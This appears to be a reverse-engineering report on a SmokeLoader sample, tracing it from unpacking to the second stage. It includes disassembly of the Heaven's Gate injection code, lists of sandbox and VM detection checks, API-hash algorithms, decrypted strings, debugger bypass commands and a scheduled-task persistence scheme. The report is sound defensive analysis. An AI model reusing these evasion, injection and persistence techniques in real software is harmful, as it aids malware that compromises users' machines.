

# Background

SmokeLoader is a commercial loader malware family that has been active since 2011. It is mainly used to deliver and run other malware. An early report by [CERT.PL](https://cert.pl/en/posts/2018/07/dissecting-smoke-loader/) stated that it was sold only to Russian-speaking users.

Reported distribution methods include spam email campaigns, exploit kits, and secondary infections through other loaders.  After infection, SmokeLoader expands its functionality through obfuscation and multi-stage decryption. It is designed to evade detection, communicates with C2 servers, and can download additional payloads or extend its functions through plugins. Its main role is to deploy follow-on threats such as information stealers and ransomware, acting as a relay platform after initial compromise.

Technically, SmokeLoader uses advanced anti-analysis techniques such as dynamic API resolution with API hashes, multi-stage encryption with RC4 and XOR, and Heaven's Gate to move execution from a 32-bit process to a 64-bit process. The sample analyzed in this report shows these characteristics and can be seen as a typical recent implementation of SmokeLoader.

This report analyzes the sample from startup to execution of the 2nd stage payload. The execution flow of this sample is shown below.



# Basic Information

## Sample

Source: [Malware Bazaar](https://bazaar.abuse.ch/sample/fbfd99e25fba544cb1c7cc420b11d1048289ae02dcc50eb44566a959c17589cb/)
File name: `hpwdv.exe`
File type: PE32

| Type   | Hash |
| ------ | ---- |
| MD5    | 9c0de297b9ea30ffbe100ee12150f122 |
| SHA256 | f7544f07b4468e38e36607b5ac5b3835eac1487e7d16dd52ca882b3d021c19b6 |

## VirusTotal

| Type             | Date and Time |
| ---------------- | ------------- |
| First submission | 2024-05-28 06:21:56 UTC |
| Last submission  | 2025-02-22 17:58:24 UTC |

## Sandbox Results

- [CAPE](https://www.capesandbox.com/analysis/42888/#)
- [Triage](https://www.capesandbox.com/analysis/42888/#)

# Surface Analysis

The DIE analysis result is shown below.


The entropy of the `.text` section is high (`7.627`), which suggests that the file may be packed.


# Unpacking

The unpacking process of this sample is as follows.
- It writes shellcode into RWX memory region allocated by `VirtualAlloc`, then transfers control to the shellcode with a `jmp`
- The shellcode writes the unpacked PE data into RW memory allocated by `VirtualAlloc`
- It overwrites the entire original in-memory execution module with zeros, then maps the unpacked PE data there
- It transfers control with a `jmp` to code in the `.text` section of the unpacked PE data (address: `0x4032d5`)

This is a typical loader technique. Instead of decrypting the PE file directly on disk, it rewrites itself in memory at runtime, which makes static analysis harder. In this case, the unpacked PE data can be extracted by dumping the PE data written by the shellcode into the memory region allocated by `VirtualAlloc`.

# Unpacked PE File

## Surface Analysis

The `.text` section has high entropy, which suggests obfuscation or packing.


There is only one section, and code rewriting is possible, so the code may be modified dynamically.


## Analysis Environment Detection

This sample detects analysis environments using multiple techniques.

| Technique | Purpose |
| --------- | ------- |
| `IsBeingDebugged` flag | Debugger detection |
| `NtGlobalFlag` flag | Debugger detection |
| Module name check | Decide whether later anti-analysis checks should run |
| `ProcessDebugPort` value | Debugger detection |
| Sandbox-related DLLs | Sandbox detection |
| Registry search | Virtual environment detection |
| Process enumeration | Virtual environment detection |

### `IsBeingDebugged` and `NtGlobalFlag`

The sample jumps to an address calculated from the `BeingDebugged` value read from the PEB. It adds 1 to the value, multiplies it by a hard-coded address offset, then adds the base address of the current module. So, the intended code runs only when the `IsBeingDebugged` flag is 0.

```
movzx ecx, [eax+PEB.BeingDebugged]
add ecx, 1
mov eax, ecx
push 328f
pop ecx
mul ecx
add eax, ebx   ; ebx is the base address of the running module
mov [esp], eax
retn
```

In the same way, the sample checks the `NtGlobalFlag` value read from the PEB. It jumps to the intended address `0x403220` only when the value is 0, which works as a debugger evasion.

### Module Name Check

The sample uses `GetModuleFileNameW` to get the file name of the running module. It checks whether the name contains `"2af6.vmt"`. If not, it runs the next three analysis-environment detection routines.

### Check of `ProcessDebugPort`

The sample uses `NtQueryInformationProcess` to get the `ProcessDebugPort` value of the current process and decides whether the process is being debugged.

### Attempt to Load Sandbox-Related DLLs

The sample uses `GetModuleHandleA` to attempt to load modules named `"sbiedll"` (Sandboxie), `"aswhook"` (Avast), and `"syxhk"` (AVG). If any of them is already loaded, it treats the environment as an analysis environment.

### Registry Check

The sample uses native APIs such as `NtOpenKey`, `NtQueryKey`, and `NtEnumKey` to check whether either of the following registry paths contains one of these strings: `"qemu"`, `"virtio"`, `"vmware"`, `"vbox"`, or `"xen"`.
- `\REGISTRY\MACHINE\System\CurrentControlSet\Enum\IDE`
- `\REGISTRY\MACHINE\System\CurrentControlSet\Enum\SCSI`

Here, `\REGISTRY\MACHINE` means `HKLM`.

### Process Check

The sample uses `NtQuerySystemInformation` to get `SystemProcessInformation` and checks whether any of the following process names exist: `"qemu-ga.exe"`, `"qga.exe"`, `"windanr.exe"`, `"vboxservice.exe"`, `"vboxtray.exe"`, `"vmtoolsd.exe"`, or `"prl_tools.exe"`.

## Target Selection

This sample excludes systems that use specific languages from infection.

More specifically, it uses `GetKeyboardLayout` to get the list of installed keyboard layouts. It sets a flag to 1 if Russian is present, and to 0 if Ukrainian is present or otherwise. If the flag is 1, it exits immediately.


## Anti-Analysis Features

This sample has several features designed to hinder static analysis and related work.

### Control-Flow Obfuscation

Unnecessary `jmp` instructions are inserted throughout the code.


The sample also implements `jmp` behavior by combining consecutive `jz` and `jnz`. In IDA's code view, this causes some data regions to be disassembled as code.


### Decryption of Code and Data

All code that provides the main functionality of this module is XOR-encrypted and decrypted just before execution by `temp_decrypt_code`. This function takes the offset of the target code, the size of the target code, and the decryption key as arguments.

After the decrypted code finishes running, `temp_decrypt_code` is called again and the code is re-encrypted.


The function used to decrypt data is `decrypt_data_chunk`. It takes the address and size of the target data and XOR-decrypts it with `0x8145d7b3`.

The `decrypt_data_chunk` function itself is also encrypted by `temp_decrypt_code` and is decrypted only at runtime.

### Dynamic API Resolution

The hashes of APIs to load are encrypted. The hashes of API names are hard-coded as null-terminated lists grouped by DLL, and the API hashes are overwritten with API addresses after API resolution.

```c
struct api_list {
	DWORD NtTerminateProcess; // ntdll
	DWORD NtClose;
	DWORD LdrLoadDll;
	DWORD RtlInitUnicodeString;
	DWORD RtlZeroMemory;
	DWORD nulled1;
	DWORD GetModileHandleA; // kernel32
	DWORD Sleep;
	DWORD GetModuleFileNameW;
	DWORD ExpandEnvironmentStringsW;
	DWORD lstrcatW;
	DWORD CreateFileW;
	DWORD CreateFileMappingW;
	DWORD MapViewOfFile;
	DWORD LocalAlloc;
	DWORD LocalFree;
	DWORD nulled2;
	DWORD GetForegroundWindow; // user32
	DWORD GetShellWindow;
	DWORD GetWindowThreadProcessId;
	DWORD wsprintfW;
	DWORD GetKeyboardLayoutList;
	DWORD nulled3;
	DWORD OpenProcessToken; // advapi32
	DWORD GetTokenInformation
	DWORD nulled4;
	DWORD ShellExecuteExW; // shell32
	DWORD nulled5;
	DWORD NtOpenProcess; // ntdll (resolved from ntdll mapped in memory)
	DWORD ntCreateSection;
	DWORD NtMapViewOfSection;
	DWORD NtAllocateVirtualMemory;
	DWORD NtDuplicateObject;
	DWORD NtQuerySystemInformation;
	DWORD NtQueryInformationProcess;
	DWORD NtOpenKey;
	DWORD NtQueryKey;
	DWORD NtEnumerateKey;
	DWORD RtlCreateUserThread;
	DWORD strstr;
	DWORD wcsstr;
	DWORD tolower;
	DWORD towlower;
}
```

The sample uses DJB2 to hash API names, but one important detail is that it performs an extra calculation for the trailing null byte, as shown below.
```python
def djb2_null(s):
    hash = 0x1505
    for c in s:
        hash = (((hash << 5) + hash) + orc(c) & 0xFFFFFFFF)
    # for null terminator
    hash = ((hash << 5) + hash) & 0xFFFFFFFF
    return hash
```

The following APIs in `ntdll.dll` are resolved by parsing the export directory of `ntdll.dll` mapped into process memory with `CreateFileW`, `CreateFileMappingW`, and `MapViewOfFile`. These APIs are important because they are later used for actions such as injection into another process, and they likely help avoid API hooks placed by antivirus products.

## Execution of the 2nd Stage

This sample runs the 2nd stage PE by injecting it into the legitimate process `explorer.exe`, which avoids creating a suspicious process.

When it writes the PE data into the memory of `explorer.exe`, it maps a section containing the 2nd stage payload and configuration data into `explorer.exe` with `NtMapViewOfSection`. This likely aims to evade detection by avoiding APIs such as `WriteProcessMemory`, which are easier to detect.

### PE Injection

CAPE sandbox analysis suggests that the payload may be injected into `explorer.exe` and `svchost.exe`.


The sample XOR-decrypts `0x3204` bytes starting at offset `0x5b0c` using `decrypt_data_chunk`.

The layout of the decrypted data is as follows:
- First 4 bytes: size of the decompressed data (`0x5600`)
- Bytes after that: compressed PE data

The compressed data after the first 4 bytes is copied into RW memory allocated with `NtAllocVirtualMemory`, and then decompressed. The control flow of the decompression algorithm is obfuscated and difficult to follow, so the decompressed data needs to be extracted from memory with a debugger or by using an emulator.

In this case, I used [flare-emu](https://github.com/mandiant/flare-emu) to emulate the decompression code and extract the decompressed PE data. The script used is shown below. It emulates the full `decompress_payload` function and extracts the decompressed data from memory.
```python
import ida_bytes
import ida_kernwin
import flare_emu

# =========================
# Helpers
# =========================

def read_dword(ea: int) -> int:
    return ida_bytes.get_dword(ea)


def read_bytes(ea: int, n: int) -> bytes:
    b = ida_bytes.get_bytes(ea, n)
    if b is None or len(b) != n:
        raise RuntimeError(f"Failed to read {n} bytes at 0x{ea:X}")
    return b

def patch_bytes(ea, dec):
    ida_bytes.patch_bytes(ea, dec)

def add_comment(ea, cmt):
    ida_bytes.set_cmt(ea, cmt, False)


# =========================
# Main logic
# =========================

def emulate_decrypt(
    start_ea: int,
    end_ea: int,
    enc_blob_ea: int,
    enc_blob_size: int,
    out_size: int
):
    """
    dec_func_ea: start address of the decryption function
    enc_blob_ea/enc_blob_size: location and size of the encrypted data
    out_size: expected maximum output size after decryption
    """

    eh = flare_emu.EmuHelper()

    # Read the input data from IDA
    enc = read_bytes(enc_blob_ea, enc_blob_size)
    ida_kernwin.msg(f"[+] Size: {enc[:4].hex()}, payload: {enc[4:].hex()}\n")

    # Allocate memory in the emulator (input/output)
    in_addr = eh.allocEmuMem(enc_blob_size)
    eh.writeEmuMem(in_addr, enc[4:])

    out_addr = eh.allocEmuMem(out_size)

    def call_hook(address, arguments, functionName, userData):
        #ida_kernwin.msg(f"[+] call @ {eh.hexString(address)}\n")
        if address == 0x4013b2 or address == 0x4014aa:
            eh.skipInstruction(userData, useAnalysisHelper=False)
            ida_kernwin.msg(f"[+] skipped call @ {eh.hexString(address)}\n")

    mystack = [0xffffffff, in_addr, out_addr]

    eh.emulateRange(
        start_ea,
        end_ea,
        stack=mystack, 
        skipCalls=False, 
        callHook=call_hook,
        hookData={"funcEnd": end_ea} # REQUIRED for broken function boundary on IDA
    )

    # Read the decryption result
    dec = eh.getEmuBytes(out_addr, out_size)

    return (in_addr, out_addr, dec)

def main():
    start_ea = 0x401373
    end_ea = 0x4014b6
    enc_ea     = 0x405b0c
    enc_sz     = 0x3204
    out_sz     = 0x6000
    output_path = "<Redacted>"
    in_addr, out_addr, dec = emulate_decrypt(start_ea, end_ea, enc_ea, enc_sz, out_sz)

    ida_kernwin.msg(f"[+] enc mapped  at: {hex(in_addr)}\n")
    ida_kernwin.msg(f"[+] out mapped  at: {hex(out_addr)}\n")
    ida_kernwin.msg(f"[+] decrypted: {dec.hex()}\n")

    with open(output_path, "wb") as f:
        f.write(dec)

    ida_kernwin.msg(f"[+] saved to {output_path}\n")

if __name__ == "__main__":
    main()
```

The contents of `decompress_payload` are encrypted by `temp_decrypt_code`, but in this case the code had already been decrypted inside IDA in advance. So, the calls to `temp_decrypt_code` need to be skipped while emulating `decompress_payload`. To do this, the `call_hook` function is executed for each function call inside `decompress_payload`, and when `temp_decrypt_code` is called, `skipInstruction` is used to skip execution of that function.

As a result of emulation, it is possible to extract a Win64 PE file with magic bytes such as `MZ` and `PE\0\0`, as well as section names, removed.

When the decrypted data is checked in a debugger, it also appears to be PE data with non-essential areas removed.


Next, the sample creates a section with `NtCreateSection` and maps it into both the current process and `explorer.exe` with `NtMapViewOfSection`. It then writes the PE data into the current-process view where the PE is mapped, which copies executable PE data into the target `explorer.exe` process.

In the same way, it creates another section with `NtCreateSection`, maps it into both the current process and `explorer.exe`, and writes the file path of the current execution module there. This area is later used by the 2nd stage to store required structure data.

Finally, after relocating the PE data using the Heaven's Gate technique described below, the sample injects by creating a thread in `explorer.exe` with `RtlCreateUserThread`, using the PE entry point as the start address.

### Heaven's Gate

Heaven's Gate is a technique that allows a 32-bit process to execute 64-bit code by switching segments under WOW64. With this technique, the malware can inject into a 64-bit process while avoiding hooks placed by security products inside the 32-bit process.
In this case, the sample uses Heaven's Gate twice to inject from a 32-bit process into the 64-bit `explorer.exe` process.

First Heaven's Gate:
- Relocate the mapped PE based on the address in `explorer.exe`

```
00000000`00403047 57              push    rdi
00000000`00403048 4989c0          mov     r8,rax
00000000`0040304b 4989d1          mov     r9,rdx
00000000`0040304e 4889ce          mov     rsi,rcx
00000000`00403051 488b5630        mov     rdx,qword ptr [rsi+30h] # rdx <- ImageBase of injected PE
00000000`00403055 4c29c2          sub     rdx,r8 # rdx = address of the 2nd map view, so calculate the delta between ImageBase and the 2nd map view
00000000`00403058 488db6b0000000  lea     rsi,[rsi+0B0h]# rsi <- ptr BaseRelocationTable
00000000`0040305f 8b36            mov     esi,dword ptr [rsi]
00000000`00403061 4c01ce          add     rsi,r9
00000000`00403064 833e00          cmp     dword ptr [rsi],0
00000000`00403067 742a            je      image00000000_00400000+0x3093 (00000000`00403093)
00000000`00403069 8b3e            mov     edi,dword ptr [rsi] # BaseAddress
00000000`0040306b 8b4e04          mov     ecx,dword ptr [rsi+4] # SizeOfBlock
00000000`0040306e 83e908          sub     ecx,8
00000000`00403071 d1e9            shr     ecx,1
00000000`00403073 4883c608        add     rsi,8
00000000`00403077 4831c0          xor     rax,rax
00000000`0040307a 66ad            lods    word ptr [rsi]
00000000`0040307c 66a900a0        test    ax,0A000h # check type
00000000`00403080 740d            je      image00000000_00400000+0x308f (00000000`0040308f)
00000000`00403082 6625ff0f        and     ax,0FFFh # get offset
00000000`00403086 4c01c8          add     rax,r9
00000000`00403089 4801f8          add     rax,rdi
00000000`0040308c 482910          sub     qword ptr [rax],rdx # reloced <- original - delta
00000000`0040308f e2e6            loop    image00000000_00400000+0x3077 (00000000`00403077)
00000000`00403091 ebd1            jmp     image00000000_00400000+0x3064 (00000000`00403064)
00000000`00403093 5f              pop     rdi
00000000`00403094 5e              pop     rsi
00000000`00403095 cb              retf
```

Second Heaven's Gate:
- Resolve `RtlCreateUserThread` and `NtSetBoostPriority` from `ntdll` through the PEB
- Start a thread in `explorer.exe` using the mapped PE entry point as the start address and the current module path written into the first map view as the argument

```
00000000`00403096 53              push    rbx
00000000`00403097 56              push    rsi
00000000`00403098 57              push    rdi
00000000`00403099 4154            push    r12
00000000`0040309b 4889c3          mov     rbx,rax
00000000`0040309e 4889ce          mov     rsi,rcx
00000000`004030a1 4889d7          mov     rdi,rdx
00000000`004030a4 6a60            push    60h
00000000`004030a6 58              pop     rax
00000000`004030a7 65488b00        mov     rax,qword ptr gs:[rax] # rax <- PEB
00000000`004030ab 488b4018        mov     rax,qword ptr [rax+18h] # rax <- Ldr
00000000`004030af 488b4030        mov     rax,qword ptr [rax+30h]
00000000`004030b3 4c8b4010        mov     r8,qword ptr [rax+10h] # r8 <- DllBase of ntdll
00000000`004030b7 4d85c0          test    r8,r8
00000000`004030ba 0f842d010000    je      image00000000_00400000+0x31ed (00000000`004031ed)
00000000`004030c0 4d31ed          xor     r13,r13
00000000`004030c3 4d31f6          xor     r14,r14
00000000`004030c6 458b483c        mov     r9d,dword ptr [r8+3Ch]
00000000`004030ca 4f8d8c0188000000 lea     r9,[r9+r8+88h] # Export directory of ntdll
00000000`004030d2 458b11          mov     r10d,dword ptr [r9]
00000000`004030d5 4585d2          test    r10d,r10d
00000000`004030d8 0f840f010000    je      image00000000_00400000+0x31ed (00000000`004031ed)
00000000`004030de 56              push    rsi
00000000`004030df 57              push    rdi
00000000`004030e0 4f8d1c10        lea     r11,[r8+r10]
00000000`004030e4 418b4b18        mov     ecx,dword ptr [r11+18h] # NumberofNames
00000000`004030e8 458b6320        mov     r12d,dword ptr [r11+20h] # AddressOfNames
00000000`004030ec 4d01c4          add     r12,r8
00000000`004030ef ffc9            dec     ecx
00000000`004030f1 498d3c8c        lea     rdi,[r12+rcx*4]
00000000`004030f5 8b37            mov     esi,dword ptr [rdi]
00000000`004030f7 4c01c6          add     rsi,r8
00000000`004030fa ba05150000      mov     edx,1505h # calc DJB2 hash of API name
00000000`004030ff 89d0            mov     eax,edx
00000000`00403101 c1e205          shl     edx,5
00000000`00403104 01c2            add     edx,eax
00000000`00403106 31c0            xor     eax,eax
00000000`00403108 ac              lods    byte ptr [rsi]
00000000`00403109 01c2            add     edx,eax
00000000`0040310b 85c0            test    eax,eax
00000000`0040310d 75f0            jne     image00000000_00400000+0x30ff (00000000`004030ff)
00000000`0040310f b84285dd22      mov     eax,22DD8542h
00000000`00403114 39d0            cmp     eax,edx
00000000`00403116 7520            jne     image00000000_00400000+0x3138 (00000000`00403138)
00000000`00403118 51              push    rcx
00000000`00403119 418b7b24        mov     edi,dword ptr [r11+24h] # AddressOfNameOrdinals
00000000`0040311d 4c01c7          add     rdi,r8
00000000`00403120 668b0c4f        mov     cx,word ptr [rdi+rcx*2]
00000000`00403124 418b7b1c        mov     edi,dword ptr [r11+1Ch] # AddressOfFunctions
00000000`00403128 4c01c7          add     rdi,r8
00000000`0040312b 4831c0          xor     rax,rax
00000000`0040312e 8b048f          mov     eax,dword ptr [rdi+rcx*4]
00000000`00403131 4c01c0          add     rax,r8
00000000`00403134 4989c5          mov     r13,rax
00000000`00403137 59              pop     rcx
00000000`00403138 b80f1179f7      mov     eax,0F779110Fh
00000000`0040313d 39d0            cmp     eax,edx
00000000`0040313f 7520            jne     image00000000_00400000+0x3161 (00000000`00403161)
00000000`00403141 51              push    rcx
00000000`00403142 418b7b24        mov     edi,dword ptr [r11+24h]
00000000`00403146 4c01c7          add     rdi,r8
00000000`00403149 668b0c4f        mov     cx,word ptr [rdi+rcx*2]
00000000`0040314d 418b7b1c        mov     edi,dword ptr [r11+1Ch]
00000000`00403151 4c01c7          add     rdi,r8
00000000`00403154 4831c0          xor     rax,rax
00000000`00403157 8b048f          mov     eax,dword ptr [rdi+rcx*4]
00000000`0040315a 4c01c0          add     rax,r8
00000000`0040315d 4989c6          mov     r14,rax
00000000`00403160 59              pop     rcx
00000000`00403161 4d85ed          test    r13,r13
00000000`00403164 7407            je      image00000000_00400000+0x316d (00000000`0040316d)
00000000`00403166 4d85f6          test    r14,r14
00000000`00403169 7402            je      image00000000_00400000+0x316d (00000000`0040316d)
00000000`0040316b eb02            jmp     image00000000_00400000+0x316f (00000000`0040316f)
00000000`0040316d e282            loop    image00000000_00400000+0x30f1 (00000000`004030f1)
00000000`0040316f 5f              pop     rdi
00000000`00403170 5e              pop     rsi
00000000`00403171 4d85ed          test    r13,r13
00000000`00403174 7477            je      image00000000_00400000+0x31ed (00000000`004031ed)
00000000`00403176 4d85f6          test    r14,r14
00000000`00403179 7472            je      image00000000_00400000+0x31ed (00000000`004031ed)
00000000`0040317b 4883e4f0        and     rsp,0FFFFFFFFFFFFFFF0h
00000000`0040317f 4883ec10        sub     rsp,10h
00000000`00403183 4883ec50        sub     rsp,50h
00000000`00403187 4889f9          mov     rcx,rdi # process handle of explorer
00000000`0040318a 48c7c200000000  mov     rdx,0
00000000`00403191 49c7c000000000  mov     r8,0
00000000`00403198 49c7c100000000  mov     r9,0
00000000`0040319f 48c744242000000000 mov   qword ptr [rsp+20h],0
00000000`004031a8 48c744242800000000 mov   qword ptr [rsp+28h],0
00000000`004031b1 48895c2430      mov     qword ptr [rsp+30h],rbx # start address = entry point of PE
00000000`004031b6 4889742438      mov     qword ptr [rsp+38h],rsi # parameter = current module path written to the 1st map view
00000000`004031bb 4889642440      mov     qword ptr [rsp+40h],rsp
00000000`004031c0 48c744244800000000 mov   qword ptr [rsp+48h],0
00000000`004031c9 41ffd5          call    r13 # RtlCreateUserThread
00000000`004031cc 4883c450        add     rsp,50h
00000000`004031d0 4883ec20        sub     rsp,20h
00000000`004031d4 48c7c1ffffffff  mov     rcx,0FFFFFFFFFFFFFFFFh
00000000`004031db 48c7c200000000  mov     rdx,0
00000000`004031e2 41ffd6          call    r14 # NtSetBoostPriority
00000000`004031e5 4883c420        add     rsp,20h
00000000`004031e9 4883c410        add     rsp,10h
00000000`004031ed 415c            pop     r12
00000000`004031ef 5f              pop     rdi
00000000`004031f0 5e              pop     rsi
00000000`004031f1 5b              pop     rbx
00000000`004031f2 cb              retf
```

The following WinDbg commands can be used to reach the point just before Heaven's Gate runs.

```
bp 0x403364 # BeingDebugged
g g
p
r ecx=0

bp 0x403297 # NtGlobalFlag
g
p
r eax=0

ba e 1 0x40295e # CreateFileW
g
ed @esp+0x8 7 # set dwSharedMode to 7

ba e 1 0x402f76 # check_curr_module_filename
g
r eax=1
```

## Privilege Escalation

The sample uses `GetTokenInformation` to get the `TokenIntegrity` value of the current process. If the integrity level is below Medium, it attempts privilege escalation.

More specifically, it uses `ShellExecuteW` with `runas` and runs `wmic process call create <current module>` to restart the current module with administrator rights. The UAC prompt shown at that time uses the working window returned by `GetForegroundWindow` as the parent window.

## Other Findings

### Code Integrity Check

The sample computes a DJB2-based hash of `0x3204` bytes starting at offset `0x5b0c` and checks whether it matches `0xAFE13CC`. If it does not match, the stack pointer is modified and the process stops working correctly. In this DJB2-based algorithm, `0x2260` is used as the initial hash value instead of `0x1505`. In the same way, it also checks whether the hash of `0x26ad` bytes starting at offset `0x345f` matches `0xFA2E9F74`.

These checks likely exist to verify data integrity.

### Error When Getting a Handle to `ntdll.dll`

When this malware is run on Windows 7, an error occurs when it tries to get a handle to `C:\Windows\system32\ntdll.dll` with `CreateFileW` in order to resolve APIs from `ntdll`.

The reason is that the third argument, `dwShareMode`, is set to 0 (no sharing). During debugging, this error can be avoided by changing the value to 7 (`FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE`).


# 2nd Stage

The 2nd stage is a Win64 PE injected into the `explorer.exe` process.

The 2nd stage takes the file path of the first-stage module as an argument, which is specified by the first stage. When debugging with x64dbg, a new memory region must be allocated from the memory map window, some file path must be written there, and the address of that region must be written into RCX.

## Surface Analysis

A Win64 DLL.


Section names have been removed.


## Anti-Analysis Features

### Dynamic API Resolution

The sample resolves APIs based on hard-coded hashes of DLL names and API names. The hash is calculated as follows.

```python
def compute_hash(input: str) -> int:
    def rol32(value: int, bits: int) -> int:
        return ((value << bits) | (value >> (32 - bits))) & 0xFFFFFFFF

    hash = 0
    for c in input:
        c = ord(c) & 0xDF
        hash = (c + rol32((c ^ hash), 8)) & 0xFFFFFFFF
    return hash ^ 0x199246ba
```

API resolution is performed in groups by DLL.


When hashing some API names in DLLs such as `urlmon`, `ws2_32`, and `shell32`, the final XOR with `0x199246ba` is omitted. This point is important.

### String Encryption

Strings used by the sample are RC4-encrypted and decrypted with a hard-coded 4-byte key.


When a string is decrypted, the code specifies the index of the target string. Based on that index, the size and address of the encrypted data are determined.

```python
curr_offset = start of RC-encrypted data (0x180001954)
idx = 0
while idx != target_index:
	# move forward by (the byte pointed to by current_offset + 1)
	curr_offset += read_byte(curr_offset) + 1
	idx += 1

# *curr_offset: length of the ciphertext
# bytes after *curr_offset + 1: ciphertext
rc4_decrypt(curr_offset + 1, read_byte(curr_offset))
```

As a result, strings corresponding to indexes 1 through 42 were found.

```
1: https://dns.google/resolve?name=microsoft.com
2: Software\Microsoft\Internet Explorer
3: advapi32.dll
4: Location:
5: plugin_size
6: user32
7: advapi32
8: urlmon
9: ole32
10: winhttp
11: ws2_32
12: dnsapi
13: shell32
14: shlwapi
15: svcVersion
16: Version
17: .bit
18: %sFF
19: %02x
20: %s%08X%08X
21: %s\%hs
22: %s%s
23: regsvr32 /s %s
24: %APPDATA%
25: %TEMP%
26: .exe
27: .dll
28: .bat
29: :Zone.Identifier
30: POST
31: Content-Type: application/x-www-form-urlencoded
32: open
33: Host: %s
34: PT10M
35: 1999-11-30T00:00:00
36: Firefox Default Browser Agent %hs
37: Accept: */*
Referer: http://%S%s/
38: Accept: */*
Referer: https://%S%s/
39: .com
40: .org
41: .net
42: explorer.exe
```

## Analysis Environment Detection

After API resolution, the sample starts two threads with `CreateThread`. One performs analysis-environment detection based on process names, and the other interferes with analysis based on window class names.

### Process Name Check

The sample uses `CreateToolhelp32Snapshot`, `Process32First`, and `Process32Next` to check process names on the system. If it detects a process matching a hard-coded hash, it terminates the process with `TerminateProcess`.


The hash list is as follows. The corresponding process names are unknown.

```
1D9790DA
0B8AE7E2D
6F4A5338
0B08F7923
6C583BE5
0ADA06422
6C9AC175
67A64D11
0A6805E2D
3BEE2131
5EE2C36
47806B63
47806D49
421B8CE6
78318CE6
```

### Window Class Name Check

The sample uses `EnumWindows` to enumerate windows on the system. As a callback, it specifies a function that gets each window's class name and terminates the process if the class name matches a hard-coded hash.


The hash list is as follows. The corresponding class names are unknown.

```
2A8A7DAF
6B75798
0DEA59501
29916707
21428BF7
34B4B0D2
0F59743E6
2990488E
```

## Mutex Creation

The sample builds a string from the following data, decides the mutex name from its hash, and creates the mutex with `CreateMutexA`.
- Computer name obtained with `GetComputerNameA`
- Hard-coded value `0xC7E12AF6`
- Serial number of the system directory obtained with `GetVolumeInformationA`

In this environment, the mutex name is determined as follows.

```
Computer name: "WIN-PF2LPO0V4UO"
Serial number of the system directory (C:\): 0x1CE38C10

Calculate a hash with CryptHashData
md5_hash = MD5("%s%08X%08X".format("WIN-PF2LPO0V4UO" + 0xC7E12AF6 + 0x1CE38C10) = 25948A1110D2E646A6133895C5DDF637

Convert each byte into an ASCII string (byte data 25 -> 32 35 = "25")
"25948A1110D2E646A6133895C5DDF637"

Append the string form of the serial number
"25948A1110D2E646A6133895C5DDF637" + "%08X".format(1CE38C10)
= "25948A1110D2E646A6133895C5DDF6371CE38C10"
```

The sample checks the error after mutex creation with `RtlGetLastWin32Error`. If the value is `183` (`ERR_ALREADY_EXISTS`), it terminates the main thread.

As a result, the mutex name becomes unique for each infected environment. This mutex name is also used later to generate file names.

## File Creation

The first-stage module and the plugins used by the 2nd stage are placed in the `%APPDATA%` directory, or `%TEMP%` if `%APPDATA%` does not exist.

The file names are generated from the mutex string as follows.

- Convert 7 bytes starting at byte `0x1e` of the mutex string into alphabetic characters
- Convert 7 bytes starting at byte `0x0` of the mutex string into alphabetic characters

Characters are selected from an alphabet table using `(ASCII value of each character - 30)` as the index.

```
result = ""
part_of_mutex = mutex[a: a + 8]
for c in part_of_mutex:
	result += alphanets[ord(c) - 30]

# for "371CE38", the result is "dhbtvdi"
# for "25948A1", the result is "cfjeirb"
```

In this environment, the malware copies the first-stage module into `%APPDATA%\dhbtvdi` and then deletes the original first-stage module.


The downloaded plugin is stored in `%APPDATA%\cfjeirb` after decryption.

## Set `advapi32.dll` as a Hidden File

The sample uses `SetFileAttributesW` to set `FILE_ATTRIBUTE_HIDDEN` and make `advapi32.dll` a hidden file. The purpose of this behavior is currently unknown.


## Task Scheduling Through COM Interfaces

This sample uses COM interfaces to schedule periodic execution of the first stage.

### Connect to the Task Service

After calling `CoCreateInstance`, the sample connects to the local machine with `ITaskService::Connect`.
It then gets the `ITaskFolder` interface for the task root folder (`\`) with `ITaskService::GetFolder`, which allows it to create and delete tasks.

### Delete Existing Task

The sample deletes an existing task named `"Firefox Default Browser Agent <mutex value>"` with `ITaskFolder::DeleteTask`.

Because the mutex value is included in the task name, the sample may be generating a unique name for each host. Deleting an existing task prevents duplicate registration.

### Create a New Task

#### Create a Task Definition Object

The sample creates an empty `ITaskDefinition` with `ITaskService::NewTask`.
It gets `IRegistrationInfo` with `ITaskDefinition::get_RegistrationInfo`.
It sets the current user name with `IRegistrationInfo::put_Author`.

#### Task Settings

The sample creates `ITaskSettings` with `ITaskDefinition::get_Settings`.
It enables `ITaskSettings::put_StartWhenAvailable(TRUE)` so the task runs as soon as possible when the trigger condition is met.

#### Configure Execution Triggers

This sample sets two kinds of triggers.

##### Time Trigger (`TASK_TRIGGER_TIME`)

The sample creates a time-based trigger with `ITriggerCollection::Create(TASK_TRIGGER_TIME)` and gets the corresponding `ITrigger` interface.

It creates `ITimeTrigger` with `ITrigger::QueryInterface`.
It runs `ITrigger::get_Repetition` and gets the `IRepetitionPattern` interface used to set the task interval.

- Repetition interval: `IRepetitionPattern::put_Interval("PT10M")`
	- PT10M = every 10 minutes
- Start time: `ITrigger::put_StartBoundary("1999-11-30T00:00:00")`

